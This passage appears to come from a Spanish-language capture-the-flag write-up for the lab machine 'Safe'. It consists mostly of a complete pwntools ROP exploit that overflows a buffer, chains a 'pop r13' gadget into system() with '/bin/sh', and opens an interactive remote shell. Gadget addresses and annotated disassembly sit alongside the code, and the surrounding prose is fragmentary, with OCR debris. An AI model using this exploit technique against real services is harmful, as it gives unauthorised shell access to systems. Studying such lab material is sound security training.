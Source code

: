 ```bash
 r13 
```
 y por lo de 
```bash
 r14 
```
 y 
```bash
 r15 
```
, pondremos un byte nullo.
```python
![Safe-adet-r13](/assets/images/Safe-gadget-r13.png) 
#!/usr/bin/python3

from pwn import *

context(terminal=['tmux', 'new-window'])
context(os='linux', arch='amd64')

p = remote("10.10.10.147", 1337)
# p = gdb.debug('./myapp', 'b *main')

p.recvuntil("What do you want me to echo back?")

# gef➤  ropper --search "pop r13"
# 0x0000000000401206: pop r13; pop r14; pop r15; ret;
pop_r13 = p64(0x401206)
junk = ("A"*112).encode()
bin_sh = "/bin/sh\x00".encode()
# JMP => r13 [system()]
# 0000000000401040 <system@plt>:
#   401040:       ff 25 da 2f 00 00       jmpq   *0x2fda(%rip)        # 404020 <system@GLIBC_2.2.5>
#   40116e:       e8 cd fe ff ff          callq  401040 <system@plt>
system_plt = p64(0x40116e)
null = p64(0x0)
# â¯ objdump -D ./myapp | grep "test"
#   40100b:       48 85 c0                test   %rax,%rax
#   4010c2:       48 85 c0                test   %rax,%rax
#   401104:       48 85 c0                test   %rax,%rax
# 0000000000401152 <test>:
test = p64(0x401152)
#                             **************************************************************
#                             *                          FUNCTION                          *
#                             **************************************************************
#                             undefined test()
#             undefined         AL:1           <RETURN>
#                             test                                            XREF[3]:     Entry Point(*), 00402060, 
#                                                                                          00402108(*)  
#        00401152 55              PUSH       RBP
#        00401153 48 89 e5        MOV        RBP,RSP
#        00401156 48 89 e7        MOV        RDI,RSP # RDI => "/bin/sh\x00"
#        00401159 41 ff e5        JMP        R13 # => system($rdi)
p.sendline(junk + bin_sh + pop_r13 + system_plt + null + null + test)
p.interactive()
```
